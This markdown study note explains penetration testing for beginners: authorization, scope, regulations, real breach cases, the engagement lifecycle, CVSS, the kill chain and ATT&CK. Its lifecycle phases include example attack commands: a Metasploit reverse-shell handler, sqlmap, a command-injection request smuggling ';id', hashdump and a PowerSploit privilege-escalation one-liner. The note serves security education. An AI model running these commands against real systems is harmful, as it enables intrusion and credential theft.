

# What is Penetration Testing?

> **Difficulty:** Beginner → Advanced | **Category:** Penetration Testing — Fundamentals

Penetration testing (pentest) is a **structured, authorized simulation of a cyberattack** against a system, network, or application to identify security weaknesses before malicious actors do. This note walks you from the absolute basics through the professional lifecycle of a real engagement.

---

## Table of Contents
1. [The Core Definition](#1-the-core-definition)
2. [The Attacker Mindset](#2-the-attacker-mindset)
3. [Why Organizations Need Pentesting](#3-why-organizations-need-pentesting)
4. [Pentesting vs Vulnerability Scanning](#4-pentesting-vs-vulnerability-scanning)
5. [Who Performs Pentests?](#5-who-performs-pentests)
6. [What Pentesting is NOT](#6-what-pentesting-is-not)
7. [Real Breach Examples](#7-real-breach-examples)
8. [The Pentest Lifecycle](#8-the-pentest-lifecycle)
9. [Key Deliverables](#9-key-deliverables)
10. [Advanced Concepts](#10-advanced-concepts)

---

## 1. The Core Definition

**Penetration testing** is the practice of ethically attacking a computer system, network, web application, or any digital asset with explicit written permission from the asset owner, with the goal of:

- Discovering exploitable vulnerabilities
- Demonstrating real-world impact (not just theoretical risk)
- Providing actionable remediation guidance
- Validating existing security controls

> **Key insight:** A pentest answers the question *"Can an attacker get in, and how far can they go?"* — not just *"Do vulnerabilities exist?"*

### The Three Pillars of Pentesting

| Pillar | Description |
|--------|-------------|
| **Authorization** | Written permission from the asset owner; without it, it's illegal hacking |
| **Scope** | Clearly defined boundaries — what systems, what methods, what timeframe |
| **Documentation** | Every action is logged, every finding is reported with evidence |

---

## 2. The Attacker Mindset

The single most important skill a pentester brings is **thinking like an attacker**. This is fundamentally different from how a system administrator or developer thinks.

### Defender vs Attacker Thinking

| Defender Mindset | Attacker Mindset |
|-----------------|-----------------|
| "What should work?" | "What can I make do something unintended?" |
| Follows expected paths | Explores unexpected inputs and edge cases |
| Trusts that patches are applied | Assumes patches are missing or partial |
| Focuses on availability | Focuses on confidentiality and integrity |
| Reactive — responds to incidents | Proactive — seeks out weak points |
| Thinks about normal users | Thinks about malicious users |

### Core Attacker Principles

- **Assume imperfection** — every system was written by humans, and humans make mistakes
- **Chain small issues** — a single low finding is often dismissible; three low findings chained together can be critical
- **Think about context** — a misconfiguration harmless in isolation may be devastating in combination with others
- **Enumerate everything** — the more information you collect, the more attack surface you find
- **Patience is a weapon** — real attackers spend weeks on reconnaissance before touching a system

> **Note:** The attacker has an asymmetric advantage — they only need to find *one* way in; defenders must protect *everything*.

---

## 3. Why Organizations Need Pentesting

### Business Drivers

```
Regulatory Compliance     → PCI-DSS, HIPAA, ISO 27001, SOC 2 require regular testing
Breach Prevention         → Average cost of a data breach: $4.45M (IBM, 2023)
Vendor/Customer Trust     → Enterprise clients demand pentesting before procurement
Cyber Insurance           → Insurers increasingly require annual pentest reports
Board-Level Accountability→ Demonstrating due diligence to leadership
```

### Regulatory Requirements by Industry

| Industry | Regulation | Pentest Requirement |
|----------|-----------|---------------------|
| Payment Card Processing | PCI DSS v4.0 | Annual pentest + quarterly scans |
| Healthcare | HIPAA | Risk assessments (pentest strongly recommended) |
| Finance | SOX, GLBA | Regular security assessments |
| Government (US) | FedRAMP, FISMA | Mandatory annual testing |
| EU Data Controllers | GDPR | Article 32 — regular testing of security measures |
| Defense Contractors | CMMC | Level 2/3 requires external assessments |

### The Real Cost of Not Testing

- **Equifax (2017):** Unpatched Apache Struts vulnerability → 147 million records exposed → $700M+ settlement
- **Colonial Pipeline (2021):** Legacy VPN with no MFA → $4.4M ransomware payment + fuel disruption
- **SolarWinds (2020):** Supply chain compromise undetected for 9+ months → 18,000 organizations affected

---

## 4. Pentesting vs Vulnerability Scanning

This is one of the most misunderstood distinctions in cybersecurity.

### Side-by-Side Comparison

| Dimension | Vulnerability Scanning | Penetration Testing |
|-----------|----------------------|---------------------|
| **Nature** | Automated, passive identification | Manual + automated, active exploitation |
| **Depth** | Surface-level — "this might be vulnerable" | Proof-of-concept — "this IS vulnerable, here's the impact" |
| **Human involvement** | Minimal (tool-driven) | Heavy (requires skilled analyst) |
| **False positives** | High | Low (everything is verified) |
| **Business impact shown** | No | Yes — data accessed, systems compromised |
| **Time required** | Hours | Days to weeks |
| **Cost** | Low ($) | High ($$$) |
| **Output** | List of CVEs with CVSS scores | Narrative report with attack chains |
| **Tools** | Nessus, OpenVAS, Qualys | Metasploit, Burp Suite, custom exploits |
| **Frequency** | Weekly/monthly | Quarterly/annually |

> **Warning:** A vulnerability scan is NOT a pentest. Organizations that equate the two are creating a false sense of security. Scanners miss business logic flaws, chained vulnerabilities, and context-dependent issues entirely.

### When to Use Which

```
Vulnerability Scanning → Continuous monitoring, large infrastructure, pre-patch prioritization
Penetration Testing   → Before product launch, post-major change, compliance, M&A due diligence
```

---

## 5. Who Performs Pentests?

### Engagement Models

| Model | Description | Pros | Cons |
|-------|-------------|------|------|
| **Internal Team** | In-house pentesters on security team | Deep institutional knowledge, available year-round | May have blind spots, bias |
| **External Firm** | Specialized consultancy (e.g., NCC Group, Rapid7, Cure53) | Fresh eyes, no bias, breadth of experience | Expensive, ramp-up time needed |
| **Freelance Consultant** | Independent pentester (e.g., via Cobalt, Synack) | Flexible, often specialized | Variable quality, less accountability |
| **Bug Bounty Program** | Crowd-sourced (HackerOne, Bugcrowd) | Ongoing, breadth of testers | Uncontrolled scope, no guaranteed coverage |

### Required Skills for a Pentester

```
Technical:
  ├── Networking (TCP/IP, DNS, HTTP, TLS)
  ├── Operating Systems (Linux, Windows, macOS internals)
  ├── Programming/Scripting (Python, Bash, PowerShell)
  ├── Web technologies (HTML, JS, SQL, APIs)
  ├── Active Directory / Cloud environments
  └── Exploit development (advanced)

Non-Technical:
  ├── Written communication (reports for C-suite AND engineers)
  ├── Verbal communication (client briefings, presentations)
  ├── Time management (fixed-scope engagements)
  └── Ethics and discretion (handling sensitive data)
```

### Common Certifications

| Cert | Issuer | Level | Respect Level |
|------|--------|-------|---------------|
| eJPT | eLearnSecurity | Entry | Good starter |
| CEH | EC-Council | Intermediate | Widely recognized, theory-heavy |
| PNPT | TCM Security | Intermediate | Highly practical, respected |
| OSCP | Offensive Security | Advanced | Gold standard in industry |
| GPEN | SANS/GIAC | Advanced | Highly respected, expensive |
| CRTO | Zero-Point Security | Advanced | Red team focused |
| OSED/OSEP | Offensive Security | Expert | Exploit dev / Evasion |

---

## 6. What Pentesting is NOT

This distinction protects both pentesters and organizations legally and ethically.

### Pentesting is NOT:

- ❌ **Hacking without permission** — Authorization is mandatory; without it, any access is criminal
- ❌ **A guarantee of security** — A pentest is a point-in-time assessment; new vulnerabilities emerge constantly
- ❌ **Destructive testing** — Pentesters should not delete data, crash production systems, or cause service disruption (unless explicitly agreed)
- ❌ **A compliance checkbox** — Compliance testing and thorough security testing are often different things
- ❌ **Social engineering of employees without consent** — Phishing simulations require HR/legal sign-off
- ❌ **Testing systems not in scope** — Accessing third-party infrastructure during a test is illegal

> **Warning:** Pentesters have been arrested for exceeding scope, even with written authorization for adjacent systems. Document everything.

---

## 7. Real Breach Examples

Understanding real breaches helps internalize why pentesting matters.

### Case 1: Target (2013) — Supply Chain via HVAC Vendor

- **Vector:** Credentials stolen from HVAC contractor (Fazio Mechanical)
- **Pivot:** Used vendor VPN access → POS network (should have been segmented)
- **Impact:** 40 million credit cards stolen, $202M+ in losses
- **What a pentest would have caught:** Network segmentation failure, third-party access review

### Case 2: Uber (2016) — Exposed GitHub Repository

- **Vector:** Developer committed AWS credentials to private GitHub repo
- **Exploit:** Attacker found exposed S3 bucket with driver/rider PII
- **Impact:** 57 million records; Uber paid $100,000 ransom and concealed the breach (later fined $148M)
- **What a pentest would have caught:** Credential exposure scanning, S3 bucket permissions audit

### Case 3: Capital One (2019) — SSRF in AWS

- **Vector:** Misconfigured WAF → SSRF attack → AWS IMDSv1 metadata endpoint
- **Exploit:** Retrieved IAM credentials from metadata service → accessed S3 buckets
- **Impact:** 100 million customer records
- **What a pentest would have caught:** SSRF testing, IMDSv2 enforcement check, IAM over-permission audit

### Case 4: Log4Shell (2021) — Remote Code Execution

- **CVE:** CVE-2021-44228 in Apache Log4j
- **Exploit:** Single JNDI lookup string in any logged input → arbitrary code execution
- **Affected:** Millions of internet-facing Java applications
- **What a pentest would have caught:** Dependency scanning, JNDI injection testing

---

## 8. The Pentest Lifecycle



### Phase Breakdown

#### Phase 1: Pre-Engagement
**Goal:** Define everything before touching a single system.

Activities:
- Sign **NDA** (Non-Disclosure Agreement)
- Establish **Rules of Engagement (ROE)**
- Define **scope** (IP ranges, domains, applications)
- Agree on **testing windows** (business hours vs. after-hours)
- Exchange **emergency contacts**
- Obtain **written authorization** letter
- Clarify **out-of-scope systems** (third-party providers, prod DBs)

```bash
# Document everything — example scope document format:
# In-Scope:
#   192.168.1.0/24 (internal network)
#   *.example.com (all subdomains)
#   https://app.example.com (web application)
# Out-of-Scope:
#   192.168.1.5 (critical production DB — no testing)
#   Third-party payment processor API
```

#### Phase 2: Reconnaissance
**Goal:** Gather as much intelligence about the target as possible without triggering alarms.

```bash
# Passive OSINT — no direct interaction with target
whois example.com
dig example.com ANY
theHarvester -d example.com -b google,bing,linkedin
shodan search 'org:"Example Corp"'
amass enum -passive -d example.com

# Active recon — direct interaction begins
nmap -sn 192.168.1.0/24                    # Host discovery
nmap -sV -sC -p- 192.168.1.10             # Service version scan
nmap -sV --script=vuln 192.168.1.10       # NSE vulnerability scripts
```

#### Phase 3: Vulnerability Discovery
**Goal:** Identify and catalog vulnerabilities across the attack surface.

```bash
# Automated scanning
nessus -q -x -T html -o report.html target.xml
openvas-start && openvas-cli -T xml

# Web application
nikto -h https://target.com -ssl
gobuster dir -u https://target.com -w /usr/share/wordlists/dirb/common.txt

# Manual testing
# Check HTTP headers, source code, JavaScript files
curl -I https://target.com
```

#### Phase 4: Exploitation
**Goal:** Prove vulnerabilities are exploitable and show real-world impact.

```bash
# Metasploit Framework
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.5
set LPORT 4444
run

# Manual SQL injection
sqlmap -u "https://target.com/page?id=1" --dbs --batch

# Manual command injection
curl -X POST https://target.com/api/ping -d 'host=127.0.0.1;id'
```

#### Phase 5: Post-Exploitation
**Goal:** Demonstrate the full impact of a compromise — what could an attacker do once inside?

```bash
# Meterpreter post-exploitation
meterpreter > getuid
meterpreter > getsystem        # Privilege escalation attempt
meterpreter > hashdump         # Dump password hashes
meterpreter > run post/multi/recon/local_exploit_suggester

# Linux privilege escalation
sudo -l                                    # Check sudo permissions
find / -perm -4000 2>/dev/null            # Find SUID binaries
cat /etc/crontab                          # Check scheduled jobs
linpeas.sh                                # Automated PE script

# Windows privilege escalation
whoami /priv
winpeas.exe
powershell -ep bypass -c "Import-Module PowerSploit; Invoke-AllChecks"
```

#### Phase 6: Reporting
**Goal:** Translate technical findings into business risk and actionable fixes.

Report structure:
```
Executive Summary          → For C-suite: business impact in plain English
Scope & Methodology        → What was tested and how
Risk Rating Summary        → Critical/High/Medium/Low/Info breakdown
Findings                   → For each: title, CVSS score, description, 
                             proof of concept, screenshot evidence, remediation
Attack Path Narrative      → Story of the full compromise chain
Appendices                 → Raw tool output, additional evidence
```

#### Phase 7: Remediation & Retest
**Goal:** Help the organization fix issues and verify fixes were effective.

```bash
# After client patches, retest specific findings:
# CVE-XXXX-YYYY: Apache Struts RCE
curl -v -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']...}" http://target.com/

# Compare retest results with original finding
# Mark as: Remediated / Partially Remediated / Not Remediated
```

---

## 9. Key Deliverables

| Deliverable | Audience | Content |
|-------------|----------|---------|
| **Executive Summary** | CEO, CISO, Board | Business risk, financial impact, overall posture |
| **Technical Report** | Security Engineers, Developers | Step-by-step findings with PoC and remediation |
| **Attack Path Diagram** | Security Architects | Visual of the full compromise chain |
| **Risk Register** | GRC team | Structured list of findings by risk rating |
| **Remediation Report** | Project Managers | Timeline tracking, who owns each fix |
| **Retest Report** | All | Verification of patched vulnerabilities |

---

## 10. Advanced Concepts

### Threat Modeling Integration

Before exploitation, advanced pentesters perform **threat modeling**:
1. **Asset identification** — what data/systems are crown jewels?
2. **Threat actor profiling** — who would attack this? Nation-state? Ransomware gang? Insider?
3. **Attack surface mapping** — what entry points exist for each threat actor?
4. **Likelihood vs. Impact scoring** — prioritize testing focus

### CVSS Scoring

**Common Vulnerability Scoring System (CVSS v3.1)** — the standard for rating vulnerability severity:

```
CVSS Score Ranges:
  0.0       → None
  0.1–3.9   → Low
  4.0–6.9   → Medium
  7.0–8.9   → High
  9.0–10.0  → Critical

CVSS Vector Example:
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H = 9.8 (Critical)
         AV:N  = Attack Vector: Network
         AC:L  = Attack Complexity: Low
         PR:N  = Privileges Required: None
         UI:N  = User Interaction: None
         S:U   = Scope: Unchanged
         C:H   = Confidentiality: High
         I:H   = Integrity: High
         A:H   = Availability: High
```

### The Kill Chain Model

**Lockheed Martin Cyber Kill Chain** maps the stages of an advanced attack:

```
1. Reconnaissance     → Target research (OSINT, scanning)
2. Weaponization      → Pair exploit with payload (exploit + backdoor)
3. Delivery           → Transmit weapon (phishing, USB, drive-by)
4. Exploitation       → Trigger exploit on victim system
5. Installation       → Install persistent backdoor/RAT
6. Command & Control  → Establish C2 channel (reverse shell, beacon)
7. Actions on Objective → Exfil data, disrupt operations, move laterally
```

> **Note:** A pentest aims to walk as far through the kill chain as authorization permits, collecting evidence at each stage.

### MITRE ATT&CK Framework

ATT&CK maps real-world adversary **Tactics, Techniques, and Sub-techniques (TTPs)**:

| Tactic | Example Techniques |
|--------|-------------------|
| Initial Access | Phishing (T1566), Exploit Public-Facing App (T1190) |
| Execution | PowerShell (T1059.001), WMI (T1047) |
| Persistence | Registry Run Keys (T1547.001), Scheduled Tasks (T1053) |
| Privilege Escalation | Token Impersonation (T1134), UAC Bypass (T1548.002) |
| Defense Evasion | Obfuscated Files (T1027), Disable Security Tools (T1562) |
| Credential Access | OS Credential Dumping (T1003), Brute Force (T1110) |
| Lateral Movement | Pass-the-Hash (T1550.002), RDP (T1021.001) |
| Exfiltration | Exfil over C2 (T1041), DNS Tunneling (T1048.003) |

Professional pentest reports increasingly map findings to MITRE ATT&CK technique IDs, giving blue teams precise detection logic to build.

---

## Quick Reference: Pentest Toolkit

| Phase | Tool | Purpose |
|-------|------|---------|
| Recon | `amass`, `theHarvester`, `shodan` | OSINT and subdomain enumeration |
| Scanning | `nmap`, `masscan`, `rustscan` | Port scanning and service detection |
| Web | `burpsuite`, `ffuf`, `nikto`, `sqlmap` | Web application testing |
| Exploitation | `metasploit`, `searchsploit` | Exploit management and execution |
| Post-Exploitation | `linpeas`, `winpeas`, `bloodhound` | Privilege escalation and AD enum |
| Reporting | `pwndoc`, `plextrac`, `dradis` | Report generation and management |
| C2 | `cobalt strike`, `sliver`, `havoc` | Command and control (authorized) |

---

> **Note:** Every vulnerability you find and report is a breach that didn't happen. The goal is not destruction — it's the opposite.

> **Warning:** Always, always, always have written authorization before running a single scan. "I was just testing" has resulted in federal charges. See the Legal Considerations note for details.
